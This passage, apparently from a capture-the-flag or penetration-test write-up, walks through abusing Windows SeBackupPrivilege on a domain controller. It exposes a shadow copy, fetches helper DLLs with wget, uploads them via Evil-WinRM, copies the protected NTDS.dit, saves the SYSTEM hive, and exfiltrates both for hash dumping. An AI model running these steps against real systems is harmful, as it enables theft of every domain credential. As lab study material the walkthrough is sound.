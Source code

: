```
Number of shadow copies listed: 1
-> expose %someAlias% z:
-> %someAlias% = {613f6c43-7139-4153-9687-91ecb550c31d}
The shadow copy was successfully exposed as z:\.
```

The backup NTDS.dit can’t be copied because of permissions:

```
Path   : Microsoft.PowerShell.Core\FileSystem::Z:\windows\ntds\ntds.dit
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  :
Sddl   : O:BAG:SYD:AI(A;ID;FA;;;SY)(A;ID;FA;;;BA)
```

We need another tool to bypass this (our backup privilege allows to change permissions). On kali, we need to download compiled dll files from a github repo. These allow to copy NTDS.dit which is only readable by an Admin

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
```

Evil-winRM
```
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite
```

In order to decrypt the NTDS.dit, you need the SYSTEM file too

```
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```

Download the files. 

```
download ntds.dit
download system
```

Dump the Hash's
